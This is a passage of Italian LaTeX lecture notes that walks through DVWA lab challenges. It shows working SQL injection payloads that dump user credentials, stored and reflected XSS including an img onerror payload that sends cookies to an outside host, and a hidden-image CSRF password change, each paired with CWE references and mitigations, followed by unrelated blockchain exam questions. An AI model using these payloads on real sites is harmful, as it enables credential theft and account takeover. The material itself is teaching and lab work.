dei file di log. Disabilitiamolo. Selezioniamo poi il bottone \textit{SQL Injection} e otteniamo una pagina web con un form di input "User ID". Uno script elabora l'input, lo usa in una query SQL e stampa la risposta. 

\section{SQL Injection}

L'obiettivo della sfida è iniettare comandi SQL arbitrari tramite il form HTML. Come nelle sfide precedenti, stiliamo una checklist di operazioni da svolgere per costruire il nostro attacco. 

Iniziamo ad inviare al server una richiesta legittima ed analizziamone la risposta. L'obiettivo è approfondire la conoscenza del servizio invocato. Dopodiché inviamo al server una richiesta maliziosa e ne analizziamo la risposta. L'obiettivo è ottenere dalla risposta del server informazioni di aiuto per la costruzione di un attacco. Reazioni tipiche sono crash, messaggi di errore, indicazioni di un possibile punto di iniezione, ecc. L'invio di richieste anomale effettuato con l'obiettivo di scoprire malfunzionamenti nel programma si chiama fuzz testing. La costruzione di un attacco è sempre preceduta da una procedura di fuzz testing. Alcuni esempi:
\begin{itemize}
    \item si immette un input che risulta in una richiesta sintatticamente non corretta: l'obiettivo è provocare un messaggio di errore da parte del server e recuperare ulteriori informazioni utili per la costruzione di un attacco;
    \item si immette un input che risulta in una richiesta semanticamente non corretta: l'obiettivo è lo stesso di prima;
    \item si immette un input contenente un'espressione che risulta in una richiesta sintatticamente e semanticamente corretta: l'obiettivo è capire se lo script eseguito dal server web interpreta l'input ai fini dell'esecuzione di codice arbitrario.
\end{itemize}
Se non si è ancora sfruttata la vulnerabilità, si usa l'informazione ottenuta per costruire una nuova domanda, altrimenti il compito può dirsi svolto. Ad esempio immettiamo l'input seguente nel form: \texttt{"User ID": 1}. Tale input è sia sintatticamente che semanticamente corretto, quindi ci aspettiamo una risposta corretta. Analizziamo la risposta ottenuta:
\begin{lstlisting}
ID: 1
First name: admin
Surname: admin
\end{lstlisting}
Diventa quindi chiaro il formato di una risposta corretta, e quindi l'attaccante è in grado di distinguere una risposta corretta da una non corretta. Proviamo ora il seguente input: \texttt{"User ID": -1}. Quest'input è sintatticamente corretto ma semanticamente scorretto. Osserviamo che otteniamo una risposta nulla. Diventa quindi chiaro il formato di una risposta ad un valore intero "fuori scala". L'attaccante è in grado di individuare i valori interi validi: ovvero numeri interi e presenti nel DB. Proviamo ancora con un input diverso: \texttt{"User ID": stringa}. Quest'input è sintatticamente corretto ma semanticamente scorretto. Anche in questo caso otteniamo una risposta nulla, quindi diventa chiaro il formato di una risposta ad un valore di tipo diverso. Proviamo l'input \texttt{"User ID": 1.0}. Questo input è sia sintatticamente che semanticamente corretto. Otteniamo:

\begin{lstlisting}
ID: 1.0
First name: admin
Surname: admin
\end{lstlisting}

L'applicazione sembra stampare direttamente l'input numerico (se valido) e convertire un argomento double in intero. Notiamo che in questo caso c'è riflessione dell'input. Infatti l'input dell'utente è incluso senza alcun filtro nella risposta del server. Proviamo ora con l'input \texttt{"User ID": 2-1}. Tale input è sia sintatticamente che semanticamente corretto. La risposta ottenuta è:

\begin{lstlisting}
ID: 2
First name: Gordon
Surname: Brown
\end{lstlisting}

L'applicazione sembra riflettere l'input numerico (se valido) ed estrarre la parte numerica "2" e convertirla in un intero. Immettiamo l'input seguente nel form: \texttt{"User ID": stringa'}. Tale input è sia sintatticamente che semanticamente scorretto. La risposta che otteniamo è:
\begin{lstlisting}
You have an error in your SQL syntax;
check the manual that corresponds to your
MySQL server version for the right syntax
to use near "stringa'" at line 1
\end{lstlisting}
Le informazioni che otteniamo è che il server SQL è MySQL, l'errore è sul parametro e avviene alla riga 1. Il formato della query eseguita dallo script sembra essere simile al seguente:
\begin{lstlisting}
SELECT f1, f2, f3
FROM table
WHERE f1 ='v1';
\end{lstlisting}

Il server MySQL converte \texttt{v1} in un intero e preleva la riga corrispondente di \texttt{table}. Proviamo ad iniettare un input che trasformi la query SQL in un'altra in grado di stampare tutte le righe della tabella. Il server SQL stampa tutte le righe della tabella se e solo se una clausola \texttt{WHERE} risultante dall'iniezione è sempre vera. L'esempio più classico è il seguente:
\begin{lstlisting}
SELECT f1, f2, f3
FROM table
WHERE f1 ='v1' OR '1'='1';
\end{lstlisting}
Possiamo allora iniettare una tautologia usando l'input \texttt{"User ID": 1' OR '1'='1}

Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.8 \textwidth]{./Images/cap6/6.3.png}
\end{figure}
\FloatBarrier

Usando questa query viene stampata l'intera tabella degli utenti:
\begin{lstlisting}
ID: 1' or '1'='1
First name: admin
Surname: admin

ID: 1' or '1'='1
First name: Gordon
Surname: Brown

ID: 1' or '1'='1
First name: Hack
Surname: Me

ID: 1' or '1'='1
First name: Pablo
Surname: Picasso

\end{lstlisting}

Gli argomenti della query sono stati scritti tra apici singoli, stando attenti a bilanciare l'apice singolo iniziale e finale. È possibile semplificare l'iniezione mediante l'utilizzo di caratteri di commento (\#, --).

L'iniezione SQL basata su tautologia presenta diverse limitazioni:
\begin{itemize}
    \item non permette di dedurre la struttura di unq query SQL (campi selezionati e tipo dei campi)
    \item non permette di selezionare altri campi rispetto a quelli presenti nella query SQL
    \item non permette di eseguire comandi SQL arbitrari.
\end{itemize}
L'operatore \texttt{UNION} unisce l'output di più query SQL omogenee. Proviamo ad iniettare un input che trasformi la query SQL in una query UNION. La prima query SQL è quella dello script, la seconda è fornita dall'attaccante. Affinché le query SQL UNION risultato dell'iniezione funzioni, è necessario capire la struttura della tabella selezionata dallo script: numero di colonne e tipi di dato devono combaciare. Immettiamo l'input seguente nel form: \texttt{"User ID":1' UNION select 1\#}. Ciò provoca l'iniezione della nostra query in cascata a quello dello script. La risposta che otteniamo è:
\begin{lstlisting}
The used SELECT statements have a
different number of columns
\end{lstlisting}
Il numero di colonne nelle due query SQL è diverso, quindi la query eseguita dallo script non recupera solo un campo. Immettiamo allora il seguente input:
\texttt{"User ID":1' UNION select 1, 2\#}. Viene stampato l'output delle due query in sequenza:
\begin{lstlisting}
ID: 1' union select 1, 2#
First name: admin
Surname: admin

ID: 1' union select 1, 2#
First name: 1
Surname: 2
\end{lstlisting}

Abbiamo scoperto che la query SQL effettuata dall'applicazione seleziona due campi. Basandoci sull'output HTML ipotizziamo che si tratti di un nome e di un cognome. Proviamo ad iniettare all'interno della UNION un'interrogazione alle funzionalità di sistema offerte da MySQL. All'URL seguente è presente un elenco di query MySQL molto interessanti da questo punto di vista\footnote{\href{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}}.

\vspace{5mm}

La funzione MySQL \texttt{version()} stampa il numero di versione del server MySQL in esecuzione. Proviamo ad iniettare \texttt{version()} in una UNION tramite l'input seguente:
\texttt{1' UNION select 1, version()\#}. Otteniamo la seguente risposta:
\begin{lstlisting}
ID: 1' union select 1, version()#
First name: admin
Surname: admin

ID: 1' union select 1, version()#
First name: 1
Surname: 5.1.41
\end{lstlisting}
Abbiamo scoperto che il server MySQL eseguito in DVWA è piuttosto datato (2010). Dando uno sguardo al servizio CVE Details, scopriamo ben 92 vulnerabilità per MySQL 5.1.41. La funzione MySQL \texttt{user()} stmpa lo username attuale e l'host da cui è partita la connessione SQL. Proviamo a iniettarlo tramite l'input seguente: \texttt{1' UNION select 1, user()\#}. Otteniamo la seguente risposta:
\begin{lstlisting}
ID: 1' union select 1, user()#
First name: admin
Surname: admin

ID: 1' union select 1, user()#
First name: 1
Surname: root@localhost
\end{lstlisting}
Scopriamo così che l'utente SQL usato dall'applicazione DVWA è root, inoltre il database è ospitato sullo stesso host dell'applicazione. Ciò è sbagliato: l'utente ha il massimo dei privilegi e inoltre web server e SQL server dovrebbero essere eseguite su macchine separate. La funzione MySQL \texttt{database()} stampa il nome del database usato nella connessione SQL. Proviamo a iniettarla in una UNION tramite l'input seguente:
\texttt{1' UNION select 1, database()\#}. Otteniamo questa risposta:
\begin{lstlisting}
ID: 1' union select 1, database()#
First name: admin
Surname: admin

ID: 1' union select 1, database()#
First name: 1
Surname: dvwa
\end{lstlisting}
Abbiamo scoperto che il nome del database usato dall'applicazione è dvwa. Una volta noto il nome del database, è possibile stamparne lo schema ottenendo la struttura delle tabelle. Il database MySQL \texttt{information\_schema} contiene lo schema di tutti i database serviti dal server MySQL, ovvero la struttura delle tabelle contenute nei DB e struttura dei campi contenuti nelle tabelle. La tabella \texttt{tables} di \texttt{information\_schema} definisce la struttura di una tabella. Il campo \texttt{table\_name} contiene il nome della tabella, mentre il campo \texttt{table\_schema} contiene il nome del database che definisce la tabella. Selezioniamo il campo \texttt{table\_name} dalla tabella \texttt{information\_schema.tables} dove \texttt{table\_schema='dvwa'}:
\begin{lstlisting}
SELECT table_name
FROM information_schema.tables
WHERE table_schema = 'dvwa';
\end{lstlisting}
Dovremmo ottenere i nomi delle tabelle contenute nel database \texttt{dvwa}. Proviamo allora a iniettare la query in una union tramite l'input seguente:
\begin{lstlisting}
1' UNION select 1, table_name
FROM information_schema.tables
WHERE table_schema = 'dvwa'#
\end{lstlisting}
Otteniamo le due tabelle \texttt{guestbook} e \texttt{users}. Quindi il database definisce queste due tabelle. La tabella \texttt{users} probabilmente contiene informazioni sensibili sugli utenti. Vediamo se si riesce a stampare la struttura: la tabella \texttt{columns} di \texttt{information\_schema} definisce la struttura di un campo di una tabella. Il campo \texttt{column\_name} contiene il nome del campo della tabella. Se selezioniamo il campo \texttt{column\_name} della tabella \texttt{information\_schema.columns} dove \texttt{table\_name='users'} dovremmo ottenere i nomi dei campi contenuti nella tabella \texttt{users}. Proviamo allora ad iniettare questa query tramite l'input seguente:
\begin{lstlisting}
1' UNION select 1, column_name
FROM information_schema.columns
WHERE table_name = 'users'#
\end{lstlisting}
Otteniamo i campi della tabella \texttt{users}:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.6 \textwidth]{./Images/cap6/6.4.png}
\end{figure}
\FloatBarrier

La tabella \texttt{users} contiene tutti i campi necessari per la definizione di un utente dell'applicazione. Vediamo se riusciamo ad iniettare una query che stampa una stringa compatta contenente tutte le informazioni di un utente: la funzione \texttt{concat} restituisce in output la concatenazione di più stringhe: possiamo usarla per costruire una stringa compatta con le informazioni di un utente: 
\begin{center}
    \texttt{user\_id:nome:cognome:username:password}
\end{center}
Proviamo ad iniettare la query vista in una UNION tramite l'input seguente:
\begin{lstlisting}
1' UNION select 1,
concat(user_id,':', first_name, ':',
last_name, ':', user, ':', password)
FROM users#
\end{lstlisting}
In questo modo otteniamo le informazioni degli utenti memorizzati nella tabella \texttt{users}.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.6 \textwidth]{./Images/cap6/6.5.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione costruisce un comando SQL utilizzando un input esterno e non neutralizza (o lo fa in modo errato) caratteri speciali del linguaggio SQL. La CWE di riferimento è la \textbf{CWE-89 - Improper Neutralization of Special Elements used in a SQL Command (SQL Injection)}.

\subsection{Mitigazione 1a}
Possiamo implementare un filtro dei caratteri speciali SQL. I linguaggi dinamici forniscono già funzioni filtro pronte e robuste, ad esempio in PHP esiste la funzione \texttt{mysql\_real\_escape\_string()}. Attivando la script security a livello high, lo script \texttt{sqli}, abusato finora, adopera un filtro basato su questa funzione. Il filtro inibisce le iniezioni basate su apici, ma esistono anche iniezioni con argomenti interi che non fanno uso di apici. Ad esempio l'input \texttt{1 OR 1=1} è ok per il filtro. Di conseguenza vengono stampati tutti i record della tabella.

\subsection{Mitigazione 1b}
Attivando la script security a livello high, lo script \texttt{sqli} quota l'argomento \texttt{\$id} nella query. In questo modo viene annullato il significato semantico dell'operatore OR, che viene visto come una semplice stringa.


\section{Stored XSS}
In questa sfida un codice malevolo javascript viene iniettato dall'attaccante e memorizzato su un server vittima in maniera permanente. Viene eseguito dal browser di un client vittima che inconsapevolmente si connette al server vittima. 

Impostiamo il livello di sicurezza delgi script di DVWA a Low, e selezioniamo il bottone \textit{XSS Stored}. Otteniamo una pagina web con due form di input: \textit{Name} e \textit{Message}. Mediante la pressione del tasto \textit{Sign Guestbook} l'input viene sottomesso all'applicazione \texttt{xss\_s} in esecuzione sul server.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.6.png}
\end{figure}
\FloatBarrier

L'obiettivo è quello di iniettare statement javascript arbitrari tramite il form HTML. Come nelle sfide precedenti, stiliamo una checklist di operazioni di svolgere per costruire il nostro attacco. Immettiamo l'input seguente nel form:
\begin{lstlisting}
Mauro

Messaggio.
\end{lstlisting}
Questo input è sia sintatticamente corretto e semanticamente corretto, quindi ci aspettiamo una risposta corretta. La risposta ottenuta è:
\begin{lstlisting}
Mauro

Messaggio.
\end{lstlisting}
Diventa chiaro il formato di una risposta corretta: l'attaccante è in grado di distinguere una risposta corretta da una non corretta. L'input è riflesso nella pagina HTML:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{nomefile}
\begin{minted}[baselinestretch=1.0]{html}
<div id="guestbook_comments">
Name: test <br />
Message: This is a test comment.
<br />
</div>
<div id="guestbook_comments">
Name: Mauro <br />
Message: Messaggio. <br />
</div> 

\end{minted}
\end{mdframed}
Un utente generico che accede all'applicazione \texttt{xss\_s} vede tutti i messaggi postati in precedenza. Immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

<h1>Titolo</h1>
\end{lstlisting}
Questo input è sintatticamente corretto e semanticamente corretto (HTML). Ci aspettiamo allora una risposta corretta. La risposta ottenuta ci dà conferma relativa alla riflessione dell'input, in quano \texttt{Titolo} viene mostrato come Heading 1. Ora immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

 <script>alert(1)</script>
\end{lstlisting}
Tale input è sintatticamente corretto e semanticamente scorretto perché non si aspetta uno script. La risposta ottenuta è la seguente:
\begin{lstlisting}
Name: Attaccante

Message:
\end{lstlisting}
Notiamo che il codice javascript iniettato è eseguito sul browser della vittima: \texttt{alert(1)} provoca il pop-up di una finestra contenente il numero 1. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.8 \textwidth]{./Images/cap6/6.7.png}
\end{figure}
\FloatBarrier

Il DOM offre diverse funzioni e strutture dati per la manipolazione dinamica del contenuto di una pagina web. Tra le altre spicca la stringa \texttt{document.cookie}, che fornisce la rappresentazione testuale di tutti i cooki posseduti dal browser vittima. Immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

 <script>alert(document.cookie)</script>
\end{lstlisting}

Tale input è sintatticamente corretto e semanticamente scorretto perché non si aspetta uno script. La risposta ottenuta è la seguente:
\begin{lstlisting}
Name: Attaccante

Message:
\end{lstlisting}
Notiamo che il codice javascript iniettato è eseguito sul browser della vittima: viene infatti provocato il pop-up di una finestra contenente i cookie dell'utente vittima.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.6 \textwidth]{./Images/cap6/6.8.png}
\end{figure}
\FloatBarrier

Gli attacchi visti nella realtà non sono sfruttabili da un attaccante, in quanto il pop-up con le informazioni lo vede la vittima, non l'attaccante; inoltre la vittima si accorge immediatamente dell'attacco. Tuttavia essi forniscono una Proof of Concept, ovvero un abbozzo di attacco limitato all'illustrazione potenziale delle conseguenze di un attacco. Proviamo ad iniettare uno script che imposti la proprietà di \texttt{document.location} ad un nuovo URL. In questo modo l'applicazione \texttt{xss\_s} viene permanentemente ridirezionata ad un altro URL. Immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

 <script>document.location="http://abc.it"</script>
\end{lstlisting}
L'esecuzione del codice javascript provoca la ridirezione permanente ad \texttt{http://www.abc.it}. Dopo l'esecuzione di una sfida, è possibile ripristinare il database di DVWA mediante il tasto \textit{Create/Reset Database} dal menu Setup.

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non neutralizza (o lo fa in modo errato) l'input utente inserito in una pagina web. La CWE di riferimento è la \textbf{CWE-79 - Improper Neutralization of Input during Web Page Generation (Cross-site Scripting)}.

\subsection{Mitigazione}
Possiamo implementare un filtro basato su whitelist, facendo scegliere l'input in una lista di valori fidati, ad esempio tramite un menu a tendina. In alternativa possiamo implementare un filtro che neutralizzi i caratteri speciali nell'input, come accade nel livello high.


\section{Reflected XSS}
In questa sfida non viene utilizzato un database per memorizzare il codice malevolo javascript. L'attaccante prepara un URL che riflette un suo input malevolo e fa in modo che l'utente vi acceda. A questo punto l'utente, accedendo all'URL, può inconsapevolmente fornire dati sensibili all'attaccante. Per questa sfida impostiamo il livello di sicurezza degli script di DVWA a Low. Selezioniamo il bottone \textit{XSS Reflected}: otteniamo una pagina web con un form di input "What's your Name". Mediante la pressione del tasto \textit{Submit}, l'input viene sottomesso all'applicazione \texttt{xss\_r} in esecuzione sul server: non è coinvolto alcun server SQL.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.9.png}
\end{figure}
\FloatBarrier

La strategia di attacco a \texttt{xss\_r} ricalca quella vista per \texttt{xss\_s}. Tuttavia, a differenza della sfida precedente, li form HTML nell'applicazione \texttt{xss\_r} accetta molti più caratteri. Ciò rende possibili attacchi più sofisticati. Consideriamo il codice javascript seguente:
\begin{lstlisting}
<img
src=x
onerror = this.src =
'http://site/?c='+document.cookie
/>
\end{lstlisting}
Il tag \texttt{img} definisce un'immagine in un tag HTML. Si prova a caricare un'immagine inesistente: l'evento \texttt{onerror} scatta quanto si verifica un errore nel caricamento di un oggeto esterno. Se si verifica, viene associata una callback, specificando l'URL da richiedere in caso di errore. ALl'URL è attaccato un parametro \texttt{c}, il cui valore è la stringa contenente i cookie dell'ultima vittima. Se iniettiamo questo codice javascript nel form, viene provocato l'invio di una richiesta HTTP al web server \texttt{http://site}. L'URL della richiesta contiene i cookie dell'utente che ha caricato la pagine. Se il web server è sotto il controllo dell'attaccante, questo può analizzare i log e leggere i cookie. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.10.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non neutralizza (o lo fa in modo errato) l'input utente inserito in una pagina web. La CWE di riferimento è la \textbf{CWE-79 - Improper Neutralization of Input during Web Page Generation (Cross-site Scripting)}. 

\subsection{Mitigazione}
Possiamo implementare un filtro basato su whitelist, facendo scegliere l'input in una lista di valori fidati, ad esempio tramite un menu a tendina. In alternativa possiamo implementare un filtro che neutralizzi i caratteri speciali nell'input, come accade nel livello high. 

Un cookie è una coppia nome/valore creata dal sito web e memorizzata nel browser del client. Vengono usati nelle applicazioni web per l'autenticazione, tracking, gestione delle preferenze degli utenti. Un cookie viene creato dall'applicazione web in esecuzione del server, salvato nel browser del client, e letto successivamente dall'applicazione che lo ha creato. I server utilizzano i cookie per memorizzare informazioni sui client: dopo che un client si è autenticato con successo, il server gli invia un cookie che funge da authentication tag. Ad ogni successiva richiesta di autenticazione, il browser presenta il cookie, dopodiché verifica l'autenticità del cookie e fornisce l'accesso. 

\section{Cross Site Request Forgery (CSRF)}
In questo tipo di sfida un utente si autentica ad un server \(S_1\), mentre è connesso si collega ad un altro server \(S_2\), e viene indotto dal server \(S_2\) ad inviare comandi non autorizzati al server \(S_1\). Tali comandi provocano azioni eseguite da parte di \(S_1\) per conto dell'utente, come se le avesse richieste lui. Per questa sfida impostiamo nuovamente il livello di sicurezza degli script a Low. Selezioniamo il bottone \textit{CSRF}: otteniamo una pagina web con due form di input: "New Password" e "Confirm new password". Mediante la pressione del tasto \textit{Change}, l'input viene sottomesso all'applicazione \texttt{csrf} in esecuzione sul server, e la password viene inserita in un database SQL.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.11.png}
\end{figure}
\FloatBarrier

Immettiamo l'input seguente nei form:
\begin{lstlisting}
password

password
\end{lstlisting}
Tale input è sia sintatticamente che semanticamente corretto, per cui ci aspettiamo una risposta corretta. La risposta ottenuta è la seguente:
\begin{lstlisting}
Password changed
\end{lstlisting}
Se analizziamo l'URL notiamo qualcosa di interessante: in particolare le password immesse dall'utente sono riflesse nell'input in chiaro: un attaccante che monitora il traffico di rete le cattura subito. L'URL è associato ad un'azione che si suppone essere eseguita da un utente fidato. Non contiene alcun parametro legato all'utente (come ad esempio la password vecchia), quindi è riproducibile da chiunque. Se questo accade, e l'azione è eseguita da un utente non fidato, il server non ha alcun modo di accorgersene. 

L'attaccante può preparare una richiesta contraffatta, modificando i parametri \texttt{password\_new} e \texttt{password\_conf} nell'URL. La richiesta contraffatta viene poi nascosta in un'immagine. La vittima, loggata a DVWA, viene indotta a caricare l'immagine inconsapevolmente, provocando così la modifica della password. Ad esempio la richiesta contraffatta potrebbe essere nascosta così:
\begin{lstlisting}
<img
src="http://127.0.0.1:8888/dvwa/vulnerabilities/csrf/?
 password_new=pippo&password_conf=pippo&Change=Change#"
 width="0" height="0"
/>
\end{lstlisting}
Quando il browser della vittima valuta la richiesta, inconsciamente si collega alla pagina di cambio password e la modifica ha successo. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.12.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non è in grado di verificare se una richiesta valida e legittima sia stata eseguita intenzionalmente dall'utente che l'ha inviata. La CWE di riferimento è la \textbf{CWE-352 - Cross-Site Request Forgery (CSRF)}

\subsection{Mitigazione}
Possiamo introdurre un elemento di casualità negli URL associati ad azioni: lo scopo è quello di distinguere richieste lecite (generate da riempimento del form da parte dell'utente) da richieste contraffatte (generate da manipolazione dell'url da parte dell'attaccante). Se l'attaccante genera l'URL senza il form, la sua richiesta viene scartata.


\let\cleardoublepage\clearpage
%\subsubsection{DOMANDA 1}
Descrivere il significato del seguente script BitCoin:

\begin{center}
    \texttt{HASH160 9af61346ce0aa2dffcf697352b4b704c84dcbaff EQUAL}
\end{center}

\subsubsection{DOMANDA 2}
Descrivere cosa realizza il seguente smart contract in Solidity:
\begin{lstlisting}[language=Solidity]
pragma solidity >=0.4.24 <0.6.0;

contract ReceiverPays {
    address owner = msg.sender;

    mapping(uint256 => bool) usedNonces;

    constructor() public payable {}

    function claimPayment(uint256 amount, uint256 nonce, bytes memory signature) public {
        require(!usedNonces[nonce]);
        usedNonces[nonce] = true;

        bytes32 message = prefixed(keccak256(abi.encodePacked(msg.sender, amount, nonce, this)));

        require(recoverSigner(message, signature) == owner);

        msg.sender.transfer(amount);
    }

    function kill() public {
        require(msg.sender == owner);
        selfdestruct(msg.sender);
    }

    function splitSignature(bytes memory sig)
        internal
        pure
        returns (uint8 v, bytes32 r, bytes32 s)
    {
        require(sig.length == 65);

        r := mload(add(sig, 32))
        s := mload(add(sig, 64))
        v := byte(0, mload(add(sig, 96)))
        
        return (v, r, s);
    }

    function recoverSigner(bytes32 message, bytes memory sig)
        internal
        pure
        returns (address)
    {
        (uint8 v, bytes32 r, bytes32 s) = splitSignature(sig);

        return ecrecover(message, v, r, s);
    }

    function prefixed(bytes32 hash) internal pure returns (bytes32) {
        return keccak256(abi.encodePacked("\x19Ethereum Signed Message:\n32", hash));
    }
}

\end{lstlisting}

\subsubsection{DOMANDA 3}
Descrivere cosa realizza il seguente chaincode in Go:
\begin{lstlisting}[language=Go]
package main

import (
    "fmt"

    "github.com/hyperledger/fabric/core/chaincode/shim"
    "github.com/hyperledger/fabric/protos/peer"
)

type SampleChaincode struct {

}

func (t *SampleChaincode) Init(stub shim.ChaincodeStubInterface) peer.Response {
    args := stub.GetStringArgs()
    if len(args) != 2 {
        return shim.Error("Incorrect arguments. Expecting a key and a value")
    }

    err := stub.PutState(args[0], []byte(args[1]))
    if err != nil {
        return shim.Error(fmt.Sprintf("Failed to create asset: %s", args[0]))
    }
    return shim.Success(nil)
}

func (t *SampleChaincode) Invoke(stub shim.ChaincodeStubInterface) peer.Response {
    fn, args := stub.GetFunctionAndParameters()

    var result string
    var err error
    if fn == "set" {
        result, err = set(stub, args)
    } else {
        result, err = get(stub, args)
    }
    if err != nil {
        return shim.Error(err.Error())
    }

    return shim.Success([]byte(result))
}

func set(stub shim.ChaincodeStubInterface, args []string) (string, error) {
    if len(args) != 2 {
        return "", fmt.Errorf("Incorrect arguments. Expecting a key and a value")
    }

    err := stub.PutState(args[0], []byte(args[1]))
    if err != nil {
        return "", fmt.Errorf("Failed to set asset: %s", args[0])
    }
    return args[1], nil
}

func get(stub shim.ChaincodeStubInterface, args []string) (string, error) {
    if len(args) != 1 {
        return "", fmt.Errorf("Incorrect arguments. Expecting a key")
    }

    value, err := stub.GetState(args[0])
    if err != nil {
        return "", fmt.Errorf("Failed to get asset: %s with error: %s", args[0], err)
    }
    if value == nil {
        return "", fmt.Errorf("Asset not found: %s", args[0])
    }
    return string(value), nil
}

func main() {
    err := shim.Start(new(SampleChaincode))
    if err != nil {
        fmt.Println("Could not start SampleChaincode")
    } else {
        fmt.Println("SampleChaincode successfully started")
    }
}

\end{lstlisting}

\subsubsection{DOMANDA 4}
Quale vulnerabilità è presente in questo smart contract in Solidity? Descrivere una possibile soluzione:
\begin{lstlisting}[language=Solidity]
// library contract
contract FibonacciLib {
    uint public start;
    uint public calculatedFibNumber;
    function setStart(uint _start) public {
        start = _start;
    }
    function setFibonacci(uint n) public {
        calculatedFibNumber = fibonacci(n);
    }
    function fibonacci(uint n) internal returns (uint) {
        if (n == 0) return start;
        else if (n == 1) return start + 1;
        else return fibonacci(n - 1) + fibonacci(n - 2);
    }
}

contract FibonacciBalance {
    address public fibonacciLibrary;
    uint public calculatedFibNumber;
    uint public start = 3;    
    uint public withdrawalCounter;
    bytes4 constant fibSig = bytes4(sha3("setFibonacci(uint256)"));
    
    constructor(address _fibonacciLibrary) public payable {
        fibonacciLibrary = _fibonacciLibrary;
    }
    function withdraw() {
        withdrawalCounter += 1;
        require(fibonacciLibrary.delegatecall(fibSig, withdrawalCounter));
        msg.sender.transfer(calculatedFibNumber * 1 ether);
    }
    
    function() public {
        require(fibonacciLibrary.delegatecall(msg.data));
    }
}

\end{lstlisting}
\clearpage
\subsubsection{DOMANDA 5}
Descrivere il seguente chaincode go:
\begin{lstlisting}
package main

import (  
    "fmt"
    "time"
)

func numbers(c1 chan int, done chan bool) {  
    for i := 1; i <= 5; i++ {
        time.Sleep(20 * time.Millisecond)
        c1 <- i
    }
    done <- true
}
func alphabets(c2 chan string, done chan bool) {  
    for i := 'a'; i <= 'e'; i++ {
        time.Sleep(40 * time.Millisecond)
        c2 <- string(i)
    }
    done <- true
}
func main() {  
    c1 := make(chan int, 2)
    c2 := make(chan string, 2)
    done := make(chan bool)
    go numbers(c1, done)
    go alphabets(c2, done)
    go func() {
        for i := 1; i <= 5; i++ {
            fmt.Println(<-c1)
        }
    }()
    go func() {
        for i := 1; i <= 5; i++ {
            fmt.Println(<-c2)
        }
    }()
    
    for i := 0; i < 2; i++ {
        <-done
    }
    fmt.Println("main terminated")
}

\end{lstlisting}
\end{document}

\begin{comment}

% ---------------------- FIGURE ---------------------
\begin{figure}[ht]
    \centering
    \includegraphics[width=6cm]{./Images/cap2/2.3.comunicazione.png}
    \caption{Esempio di comunicazione}
    \label{fig:image2.3}
\end{figure}

% --------------- COSO GRIGIO -----------------------
\begin{mdframed}[backgroundcolor=gray!20,shadow=false]

\end{mdframed}

\end{comment}